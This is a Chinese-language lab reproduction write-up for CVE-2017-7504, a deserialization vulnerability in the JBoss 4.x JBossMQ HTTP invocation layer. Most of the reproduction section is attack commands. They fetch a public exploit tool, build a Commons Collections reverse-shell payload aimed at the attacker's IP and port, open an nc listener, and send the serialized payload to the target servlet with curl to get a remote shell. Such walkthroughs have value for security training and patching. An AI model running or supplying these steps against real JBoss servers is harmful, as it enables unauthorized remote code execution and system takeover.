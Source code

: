# CVE-2017-7504 JBoss 4.x JBossMQ JMS 反序列化漏洞

## 一、漏洞简介

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x及之前版本

## 三、复现过程

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入`http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet`，如果显示下图，则可能存在漏洞

![](images/15890728714035.png)


进入kali攻击机，下载反序列化工具:https://github.com/ianxtianxt/CVE-2015-7501/

解压完，进入到这个工具目录 ,执行命令:

```bash
2继续执行命令:
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)
```

界面开启nc准备接收反弹过来的shell。命令:`nc -lvnp 4444`

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:


```bash
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![](images/15890728991009.png)


回到nc界面，发现shell已经反弹回来了

![](images/15890729297459.png)
